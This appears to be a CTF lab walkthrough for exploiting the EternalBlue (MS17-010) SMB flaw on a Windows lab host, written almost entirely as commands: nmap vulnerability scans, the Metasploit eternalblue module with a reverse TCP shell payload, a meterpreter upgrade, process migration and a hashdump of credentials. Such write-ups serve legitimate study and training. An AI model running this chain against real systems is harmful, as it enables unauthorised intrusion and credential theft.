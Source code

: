 # 🔍 EternalBlue Exploitation Walkthrough

**Target IP:** `10.10.112.154`

---

## 🛰️ 1. Scanning the Target

### 🔎 Basic Service Scan

nmap -sV -Pn -vv 10.10.112.154

🧨 Vulnerability Scan

nmap -sV -sC --script vuln -oN blue.nmap 10.10.112.154

🚪 2. Gaining Access
🛠️ Launch Metasploit

msfconsole

🔍 Search for Vulnerability

search eternalblue

🧰 Use the Exploit (Usually #0)

use exploit/windows/smb/ms17_010_eternalblue

🎯 Set Target IP

set RHOST 10.10.112.154

💥 Set a Custom Payload (Optional, but cooler 😎)

set payload windows/x64/shell/reverse_tcp

    You can also list all available payloads:

show payloads

🔓 Run the Exploit

exploit

    💡 If it fails, reboot the target and try again!

🖥️ 3. Shell Management
🎉 On Success: You’re In!

<<<<<< WIN >>>>>>

🛑 Background the Session

CTRL + Z

🔁 4. Convert to Meterpreter
📚 Post Exploitation Module

use post/multi/manage/shell_to_meterpreter

⚙️ Configure the Module

show options
set session 1

    Check available sessions:

sessions

    If session 2 is created:

sessions -i 2

🔍 Check Access Level

getuid

🛡️ 5. Escalate Privileges
📋 View Running Services

![scan](Eternal_Blue_CTF/assets/image.png)

ps

    Look for services under NT AUTHORITY or similar with high privileges.

🔁 Migrate to High-Privilege Process

migrate <PROCESS_ID>

🔓 6. Crack the System
🧃 Dump Those Hashes

hashdump

    This will dump user credentials if privileges allow.

🧠 Bonus Tips

    If something fails, try again — persistence is key.

    Take notes on session numbers, process IDs, and UIDs.

    Happy Hacking 👾

    🧠 Educational use only. Don't be evil.
